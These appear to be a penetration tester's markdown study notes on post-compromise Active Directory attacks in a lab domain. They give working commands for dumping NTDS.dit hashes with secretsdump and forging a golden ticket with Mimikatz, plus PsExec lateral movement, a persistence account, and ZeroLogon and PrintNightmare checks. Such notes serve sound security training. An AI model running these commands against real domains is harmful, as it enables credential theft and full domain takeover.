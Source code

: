 # Overview
## Provide as much value to the client as possible
We got DA? put the blinders on and do it again.
Dump the NTDS.dit and crack passwords.
Enumerate shares for sensitive information.
# Persistence can be important
What happens if our DA access is lost?
Create a DA account that we can access(DELETE IT BY THE END OF THE ENGAGEMENT).
   This should be detected by the client. If it is not, then it is something that should also be reported.
Create a golden ticket.
# Dumping the NTDS.dit
**What is it?**
It's a database used to store AD data. It includes: user information, groups, security descriptors, and password hashes.
Use secretsdump against a Domain Admin account to get the hashes.
```bash
secretsdump.py MARVEL.local/hawkeye:'Password1@'@ip-address -just-dc-ntlm
```
Extract the NT part of the hash.
Parse the information and crack the hashes.
Make a nice table to see: cracked hashes and what user they belong to.
# Golden Ticket Attack
## What is it?
After compromising the `krbtgt` account, we own the domain. It's the kerberos ticket granting ticket.
## What to use it for?
We can request access to any resource or system on the domain.
Golden ticket.
Pass the ticket to access any machine from the CLI.
**Examples**
```batch
dir \\10.0.0.25\C$
PsExec64.exe \\10.0.0.25 cmd.exe
```
## How do we do it?
Mimikatz
```batch
mimikatz.exe
privilege::debug
```
To get the `krbtgt` NTLM hash and the domain `sid` run the command below
```batch
lsadump::lsa /inject /name:krbtgt
```
Generate the golden ticket and enable pass the ticket
```batch
kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-rest-of-sid-here /krbtgt:NTLM-hash-here /id:500 /ptt
```
After getting the golden ticket: Get a shell
```batch
misc::cmd
```
### Requirements for the command and how to get them
We need the `krbtgt` NTLM hash
The domain `sid`
# Additional Active Directory Attacks
Recent Vulnerabilities
Some of these might destroy the domain. Get client approval before attempting them.
## Abusing ZeroLogon
Very dangerous attack to run against an environment. Run on test environment, but not on real engagements.
- [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)
- [SecuraBV ZeroLogon Checker](https://github.com/SecuraBV/CVE-2020-1472)
   - Run the `zerologon_tester.py` script to check if the environment is vulnerable
```bash
python3 zerologon_tester.py DC-name ip-address
```
## PrintNightmare (CVE-2021-1675)
Watch the video
- [cube0x0 RCE](https://github.com/cube0x0/CVE-2021-1675)
- [calebstewart LPE](https://github.com/calebstewart/CVE-2021-1675)
First perform a preliminary check to see if the environment if vulnerable
```bash
rpcdump.py @dc-ip | egrep 'MS-RPRN|MS-PAR'
```
